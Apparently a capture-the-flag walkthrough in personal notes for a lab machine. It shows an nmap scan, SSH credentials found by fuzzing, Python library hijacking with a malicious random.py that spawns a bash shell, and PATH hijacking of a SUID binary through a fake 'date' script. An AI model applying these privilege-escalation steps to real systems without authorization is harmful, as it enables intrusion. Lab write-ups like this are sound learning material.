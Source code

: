 # Nmap
```bash
# Nmap 7.94SVN scan initiated Wed Nov 27 12:50:50 2024 as: /usr/lib/nmap/nmap -p- --min-rate=10000 --open -oG scans/quick-scan 10.10.38.61
Host: 10.10.38.61 () Status: Up
Host: 10.10.38.61 () Ports: 22/open/tcp//ssh///, 80/open/tcp//http///
# Nmap done at Wed Nov 27 12:50:58 2024 -- 1 IP address (1 host up) scanned in 7.35 seconds
```

# Foothold
We access to [http://10.10.194.160/](http://10.10.194.160/) and fuzzing we discover [http://10.10.194.160/r/a/b/b/i/t/](http://10.10.194.160/r/a/b/b/i/t/) where ssh credentials are (alice:HowDothTheLittleCrocodileImproveHisShiningTail)

# Lateral movement: rabbit
With `sudo -l` we discover that we can launch `sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py`

Inspecting the python script we see that we don't have write access to the script, neither we have access to the python3.6 binary or random library. With `python3 -c ‘import sys; print(sys.path)’` we can see the order where python3.6 search for the libraries and here we find that we can place a malicious library in the same folder as the script (our home folder)

![[Pasted image 20241127135908.png]]

```bash
import os
os.system("/bin/bash")
```

Save it at random.py and execute the script as rabbit, and we are rabbit

# Lateral movement: hatter
In rabbit home folder we find a binary with SUID bit set, we don't get a lot of information so we move the file with netcat to our host and inspect it with ghidra. We find that it executes command date, and we can execute date as rabbit

![[Pasted image 20241127143822.png]]

We can create a date malicious binary and modify the path to execute the bad binary

```bash
#!/bin/bash
/bin/bash
```
`export PATH=/tmp:$PATH`

![[Pasted image 20241127144435.png]]

Execute the teaParty binary and get a shell as hatter